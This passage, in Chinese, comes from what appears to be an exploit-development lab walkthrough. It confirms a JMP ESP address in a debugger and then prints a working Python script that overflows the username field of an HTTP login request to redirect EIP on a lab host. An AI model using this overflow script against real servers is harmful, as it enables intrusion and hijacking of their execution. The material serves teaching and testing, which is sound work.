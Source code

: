 我们可以通过跳转到指定位置，查看指令，如图显示确实为JMP ESP：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605368370698-2d49c807-2444-40c5-a08c-cc69c1932e03.png)

在这里下一个断点，之后我们更改一下之前在定位shellcode存储空间代码中的eip的值，然后看一下是否会来到这里执行，这里因为有0x83，上面的脚本中的首行改为 `#! /usr/bin/python` ，然后send方法也不需要encode()了，代码如下，这里提示一下地址的问题，因为最先开始是放在堆栈里面的，然后结合它的特性，所以我们需要颠倒一下数值：

```
#! /usr/bin/python
import socket

try:
    print("Sending evil buffer...")
    pre = 'A'*780
    eip = "\x83\x0c\x09\x10"
    offset = 'C'*4
    last = 'D'*(1500 - len(pre) - len(eip) - len(offset))
    inputBuffer = pre + eip + offset + last
    buffer = ""
    content = "username="+inputBuffer+"&password=A"
    buffer += "POST /login HTTP/1.1\r\n"
    buffer += "Host: 10.211.55.8\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Origin: http://10.211.55.8\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Referer: http://10.211.55.8/login\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "Content-Length: " + str(len(content)) + "\r\n"
    buffer += "\r\n"
    buffer += content

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.211.55.8",80))
    s.send(buffer)                                                                                  
    s.close()                                                                                       
    print("Done!")                                                                                  
except Exception as e:                                                                              
    print(e)                                                                                        
    print("something wrong") 
```

执行之后发现，发现断在了指定位置：
